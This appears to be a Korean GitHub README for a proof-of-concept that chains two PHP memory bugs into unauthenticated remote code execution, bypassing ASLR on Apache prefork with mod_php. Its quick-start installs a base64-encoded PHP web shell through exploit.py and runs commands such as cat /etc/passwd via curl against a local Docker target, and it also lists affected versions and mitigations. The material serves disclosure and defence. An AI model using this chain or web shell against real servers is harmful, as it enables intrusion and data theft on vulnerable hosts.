


# PHP2Shell — RCE 실증 데모

> CVE-2026-109618 / CVE-2026-109619 (CVSS 9.2)  
> PHP 엔진 메모리 버그 → **인증 없이 원격 코드 실행**

[](https://asciinema.org/a/8QjlI2ziHVQmVcPE)

한국어 | [中文](README.zh.md) | [English](readme_en.md) | [日本語](readme_ja.md)

---

PHP의 메모리 처리 버그 2개를 연쇄(Chain D)해서, **URL 하나만 알면 서버에서 아무 명령이나 실행**할 수 있는 취약점입니다.

- 앱 코드 실행 전에 PHP 엔진 안에서 발생 — 로그인·입력 검증 무관
- `memory_limit=128M`, `post_max_size=8M` — **PHP 기본값이 곧 공격 조건**
- 성공하면 `www-data` 권한 셸 획득

> [!NOTE]
> ### 공격에 관여하는 계층
>
> **Linux 커널 — ASLR**(Address Space Layout Randomization)
>
> 프로세스가 시작될 때마다 라이브러리·힙·스택의 메모리 주소를 무작위 배치하는 OS 수준 방어입니다(`kernel.randomize_va_space=2`, 기본값 ON). `system()` 같은 함수의 주소가 매번 바뀌므로 공격자가 예측할 수 없습니다. **이 익스플로잇은 ASLR이 켜진 상태에서 작동합니다** — B1 단계에서 OOM 후 남은 stale pointer가 Set-Cookie 응답에 실려 나오면서, 공격자가 실제 메모리 주소를 알게 됩니다. 주소가 랜덤이어도 답이 유출되면 방어가 소용없습니다.
>
> **Apache — prefork MPM + mod_php**
>
> prefork MPM은 요청마다 독립 프로세스를 할당하는 Apache의 다중 처리 모듈입니다. 프로세스가 분리되어 있어 A1에서 만든 stale pointer는 그 프로세스에만 존재합니다. 공격자는 나머지 워커를 점유해 4단계를 같은 프로세스로 몰아넣습니다. mod_php는 PHP가 Apache 프로세스 안에서 모듈로 실행되는 구조입니다. CGI나 FPM처럼 별도 프로세스가 아니라 Apache와 메모리 공간을 공유하므로, PHP 엔진의 heap 주소가 Apache 응답(Set-Cookie)을 통해 유출될 수 있습니다.
>
> **PHP — 설정값**
>
> `post_max_size=8M` — POST 본문 크기 제한. 그러나 `Transfer-Encoding: chunked`로 보내면 `content_length=0`이 되어 이 검사를 건너뜁니다. 8M 제한인데 수십 MB를 밀어넣을 수 있습니다.
> `memory_limit=128M` — 스크립트 메모리 한도. 공격자는 중첩 POST 필드로 ~22배 메모리 증폭을 일으켜 128M 안에서 OOM을 유발합니다.
> `session.upload_progress` — 업로드 진행률 추적 기능(기본 ON). 이것이 OOM 후 stale session pointer를 남기는 원인입니다. **Off로 끄면 Chain D가 차단됩니다.**

## 공격 흐름 (~3초)

4개의 HTTP POST 요청이 **같은 프로세스**에 순서대로 도달해야 합니다. Apache prefork는 요청마다 별도 프로세스를 배정하므로, 나머지 워커를 점유해 단일 프로세스로 고정합니다.



## 빠른 시작

```bash
git clone https://github.com/XIYO/php2shell-bypass-aslr-exp.git
cd php2shell-bypass-aslr-exp

# 1. 타겟 서버 시작
docker compose up -d

# 2. 웹셸 설치 (exploit.py가 서버에 shell.php를 생성)
python3 exploit.py --port 18120 --workers 150 \
  --cmd 'echo PD9waHAgc3lzdGVtKCRfR0VUWyJjIl0pOz8+|base64 -d>/var/www/html/shell.php'

# 3. 직접 명령 실행 — URL 하나로 서버를 조작
curl 'http://localhost:18120/shell.php?c=whoami'
# www-data

curl 'http://localhost:18120/shell.php?c=ls -la /'
# drwxr-xr-x  1 root root 4096 Oct 27 06:35 .
# -rwxr-xr-x  1 root root    0 Oct 27 06:35 .dockerenv
# ...

curl 'http://localhost:18120/shell.php?c=cat /etc/passwd'
# root:x:0:0:root:/root:/bin/bash
# www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
# ...

# 4. 정리
docker compose down
```

## 영향 범위

| 상태 | 버전 |
|------|------|
| **취약** | PHP 5.x ~ 8.4.26 (Chain D는 8.4 + mod_php prefork) |
| **패치** | 8.4.27+ / 8.3.22+ / 8.2.28+ / 8.1.33+ / 7.4.33-31+ (Sury) |

## 방어

```ini
session.upload_progress.enabled = Off   ; 즉시
; + PHP 패치 적용                        ; 근본
```

## 참고

- [원본 (9bie)](https://github.com/9bie/php2shell-bypass-aslr-exp)
- [CVE-2026-109618](https://nvd.nist.gov/vuln/detail/CVE-2026-109618)
- [CVE-2026-109619](https://nvd.nist.gov/vuln/detail/CVE-2026-109619)
